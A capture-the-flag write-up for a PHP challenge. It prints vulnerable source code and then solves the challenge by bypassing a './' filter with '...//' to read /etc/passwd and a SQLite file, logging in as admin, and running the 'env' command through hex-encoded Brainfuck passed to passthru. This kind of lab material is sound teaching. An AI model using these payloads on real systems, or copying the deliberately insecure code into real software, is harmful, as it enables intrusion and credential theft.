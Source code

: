 # spice
> Try /spice.php

> engineer1337 : engineer1337

> wait 5 sec, after start (long boot process)

## About the Challenge
We have been given a website, and if we access the `/spice.php` endpoint the website will leak the source code

```php
<?php
require __DIR__ . '/vendor/autoload.php';
use \Firebase\JWT\JWT;
use Firebase\JWT\Key;
use \dotzero\Brainfuck;
include_once 'getSecret.php';
include_once 'db.php';

    if (isset($_GET['username']) && isset($_GET['password'])){

        $db = getDb();
        $user = filter_var($_GET['username'], FILTER_SANITIZE_SPECIAL_CHARS);

        $statement = $db->prepare("SELECT password FROM users WHERE username='" . $user . "'");
        $result = $statement->execute();
        
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            $pass  = reset($row);
        }

        if ($pass === $_GET['password']){
            $key = getSecret();
            $payload = ['user' => $user ];
            $jwt = JWT::encode($payload, $key, 'HS256');
            setcookie('jwt', $jwt);
            echo $jwt;
        } else {
            echo "Bad creditionals";
        }
    }
    else{
        if (isset($_GET['bf_base16'])){
        $swag = 123; 
        } else {
           $source = show_source("spice.php", true);
           echo $source;
                
    }
    }
    
    if (isset($_COOKIE['jwt'])){
        if (isset($_GET['bf_base16'])){
        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ($user === 'admin'){
            $base_code = $_GET['bf_base16'];
            $code = hex2bin($base_code);

            $bf = new Brainfuck($code);
            $output = $bf->run(true);

            passthru($output); ///It's a joke !
        }
        die();
        }

        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ( $user === 'engineer1337'){
            echo "Enter the title of the article to read it ";
            if(isset($_GET['article'])){
                $string = $_GET['article'];
                $article = str_replace("./", '', $string);
                if (!file_exists($article)){
                    echo "<h1>The article does not exist!</h1>";
                } else {
                    echo "Article: " . file_get_contents($article) ;
                }
            }
        } 
    }
?>
```

## How to Solve?
If we check on the source code, we can input a password and username using GET method. We use `engineer1337` as a password and username. So the request will be like this

![login](images/login.png)

After login, we need to add `article` parameter. And there is a `Directory Traversal` vulnerability because there is `file_get_contents` function

```php
if(isset($_GET['article'])){
    $string = $_GET['article'];
    $article = str_replace("./", '', $string);
    if (!file_exists($article)){
        echo "<h1>The article does not exist!</h1>";
    } else {
        echo "Article: " . file_get_contents($article) ;
    }
}
```

But there is a filter, if we input `./` the code will replace it with blank. So to bypass the filter, we can append the payload. The usual payload is `../../../../etc/passwd` and we can bypass that using `...//...//...//...//etc/passwd`

![dir_traversal](images/dir_traversal.png)

If we check the `spice.php` source code. There is an interesting file, `db.php` and `getSecret.php` (We will ignore getSecret.php because that file just a rabbit hole). If we check the content of `db.php` we will get another interesting file

![sqllite](images/sqlite.png)

There is a SQLite database file, if we check the content of the file by accessing `/spice.php?username=engineer1337&password=engineer1337&article=...//...//...//...//...//...//...//...//...//var/www/html/vuln-php.db` we will get administrator username and password

![sqlite_content](images/content_sqlite.png)

Now, use the admin credential as username and password.

![admin](images/admin.png)

Because we now login as administrator, we can execute an OS command using `bf_base16` parameter. Why? Check the code below, because we already login as administrator, we can execute OS command using `passthru` PHP function

```php
if ($user === 'admin'){
    $base_code = $_GET['bf_base16'];
    $code = hex2bin($base_code);

    $bf = new Brainfuck($code);
    $output = $bf->run(true);

    passthru($output); ///It's a joke !
}
```

Because the code using `Brainfuck()` and `hex2bin()`. We need to wrap our payload using brainfuck first and then encode it using hex.

For example I want to run `env` command. The brainfuck will look like this
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+.+++++++++.++++++++.
```

And then change it to hex
```
2b2b2b2b2b2b2b2b2b2b5b3e2b3e2b2b2b3e2b2b2b2b2b2b2b3e2b2b2b2b2b2b2b2b2b2b3c3c3c3c2d5d3e3e3e3e2b2e2b2b2b2b2b2b2b2b2b2e2b2b2b2b2b2b2b2b2e
```

Send the payload to the server using `bf_base16` parameter and you will get the flag because the flag was located on environment var

![flag](images/flag.png)

```
OmWars{fcd9ead7-575c-4d3f-b277-a8da7c509a97}
```